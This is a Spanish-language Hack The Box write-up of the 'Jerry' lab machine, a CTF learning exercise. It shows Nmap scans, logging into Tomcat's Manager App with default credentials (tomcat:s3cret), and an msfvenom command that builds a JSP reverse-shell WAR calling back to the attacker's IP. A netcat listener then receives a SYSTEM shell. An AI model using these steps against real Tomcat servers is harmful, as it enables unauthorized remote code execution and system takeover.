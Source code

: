 ```yaml
---
layout: single
title: <span style="color:#9c5715">Jerry </span> <span class="htb"><span class="en_blanco">-</span> Hack The Box <span class="en_blanco">-</span> </span><span class="es_rojo">E</span><span class="es_amarillo">S</span><span class="es_rojo">P</span>
excerpt: "Hoy veremos la máquina easy Jerry, la cual tiene montado un servidor web con TomCat, conseguiremos acceder al Manager App mediante la obtención de credenciales
haciendo reconocimiento web, desplegaremos una aplicación .War que contendrá una reverse shell, dándonos acceso como administrador del sistema."
date: 2022-07-17
classes: wide
header:
  teaser: /assets/images/Jerry/Jerry.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.png
categories:
  - Hack The Box
  - Easy
  - Esp
tags: 
  - Nmap 
  - TomCat
  - War
  - Msfvenom
  - Reverse Shell
---
```


## DESCRIPCION

Hoy veremos la máquina easy Jerry, la cual tiene montado un servidor web con TomCat, conseguiremos acceder al Manager App mediante la obtención de credenciales
haciendo reconocimiento web, desplegaremos una aplicación .War que contendrá una reverse shell, dándonos acceso como administrador del sistema. 

<p style="text-align:center;"><img src="../assets/images/Jerry/Descripcion_Jerry.png"></p>

## INDICE

- [Reconocimiento con Nmap](#reconocimiento-de-puertos)
- [Reconocimiento Web](#reconocimiento-web)
- [Manager App Tomcat](#acceso-al-manager-app)
- [Vías Potenciales](#vias)
	- [Creación de la reverse shell .WAR con Msfvenom &#9989;](#creacion-de-la-revshell-war-con-msfvenom)
- [Flags](#flags)
- [Conocimientos obtenidos](#conocimientos-obtenidos)
- [Autores y Referencias](#autores-y-referencias)

## RECONOCIMIENTO DE PUERTOS

Lo primero será ver que puertos están abiertos en la máquina objetivo, para ello utilizaremos la herramienta `Nmap`

```zsh
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ nmap --open -p- -T5 -Pn -oG Puertos 10.10.10.95
   2   │ Host: 10.10.10.95 ()    Status: Up
   3   │ Host: 10.10.10.95 ()    Ports: 8080/open/tcp//http-proxy/// Ignored State: filtered (65534)
   4   │ # Nmap done at Tue Jul 12 01:26:25 2022 -- 1 IP address (1 host up) scanned in 68.44 seconds
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ Reconocimiento Puertos

{*} Extrayendo puertos...

	La direccion ip es: 10.10.10.95
	Los puertos abiertos son: 8080

	Los puertos han sido copiados al portapapeles

```
<br>
Sabiendo que solo tenemos el puerto `8080` abierto procederemos a lanzar unos scripts predeterminados con Nmap.

```zsh
   1   │ nmap -sCV -p8080 -Pn -oN Objetivos 10.10.10.95
   2   │ Nmap scan report for 10.10.10.95
   3   │ Host is up (0.034s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
   7   │ |_http-title: Apache Tomcat/7.0.88
   8   │ |_http-favicon: Apache Tomcat
   9   │ |_http-server-header: Apache-Coyote/1.1

```
El servidor web está montado con Tomcat, por lo que vamos a comprobar la página web y que posibles accesos tenemos.

## RECONOCIMIENTO WEB

Al visitar la página web veremos la plantilla por defecto que utiliza TomCat.

<p style="text-align:center;"><img src="../assets/images/Jerry/tomcat.png"></p> 

Si pudiésemos acceder al Manager App podríamos intentar subir un archivo .War maliciosos el cual nos dará una reverse shell y nos comunicaremos con la máquina víctima.

Intentamos acceder, pero nos pide credenciales:

<p style="text-align:center;"><img src="../assets/images/Jerry/credenciales_manager.png"></p>

Probando unas credenciales erróneas nos salta este error por parte de TomCat.

<p style="text-align:center;"><img src="../assets/images/Jerry/401.png"></p> 

Si nos fijamos bien, nos está dando como credenciales de ejemplo esta línea.

```html
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

```
Espero que el Administrador no haya dejado por defecto estas credenciales, sería un error de novato ¿No creéis?

## ACCESO AL MANAGER APP

Probamos con `tomcat:s3cret` y bum, acceso concedido.

<p style="text-align:center;"><img src="../assets/images/Jerry/Manager_App.png"></p>

Si miramos en la parte de abajo encontramos lo siguiente.

<p style="text-align:center;"><img src="../assets/images/Jerry/war_menu.png"></p>

Parece que sí podemos subir un archivo .WAR permitiéndonos desplegar una aplicación maliciosa. Para ello podemos usar `msfvenom`, tenemos la cheatsheet del ataque mediante .War file en 
<a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" target="_blank">HackTrinks</a>.

<br>

<h1 style="text-align: center;" id="vias">Vías Potenciales</h1>

## CREACION DE LA REVSHELL WAR CON MSFVENOM

Introducimos los parámetros correspondientes de la reverse shell:

```zsh
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.3 LPORT=1234 -f war -o revshell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: revshell.war
```
<br>
Antes de subir y ejecutar la aplicación maliciosa nos ponemos por escucha con `netcat`.

```zsh
❯ rlwrap nc -lnvp 1234 # rlwrap nos permite obtener una tty interactiva con windows
listening on [any] 1234 ...
```
## SUBIR REVERSE SHELL

En este momento podemos subir el archivo .War desde el menú mostrado anteriormente.

<p style="text-align:center;"><img src="../assets/images/Jerry/deploy.png"></p>

Una vez subida la aplicación se nos mostrará en el menú del manger.

<p style="text-align:center;"><img src="../assets/images/Jerry/revshell.png"></p>

Si nos dirigimos al directorio `http://10.10.10.95:8080/revshell/` la reverse shell se nos ejecutará y la recibiremos en el listener que hemos establecido previamente.

```
❯ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

```
¡Perfecto! Somos admins por defecto, por lo que solo tenemos que buscar las flags.

## FLAGS

<h3>USER.TXT Y ADMIN.TXT</h3>

```console
dir

Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,621,888 bytes free

type "2 for the price of 1.txt"

user.txt
7004xxxxxxxxxxxxxxxxxxxxxxxxxxxx

root.txt
04a8xxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
Pues teníamos las dos flags en el mismo archivo, podemos dar por pwneada la máquina Jerry.

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Jerry</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos abiertos con Nmap.
- Reconocimiento web en busca de credenciales.
- Creación de una reverse shell en formato .War con Msfvenom.
- Desplegar un archivo .War desde el Manager App de TomCat.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra. <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>, si queréis contactarme por cualquier motivo lo podéis hacer desde <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.


Autor de la máquina:  <em>mrh4sh</em>, muchas gracias por la creación de Jerry aportando a la comunidad. <a href="https://app.hackthebox.com/users/2570" target="_blank">HTB</a>.




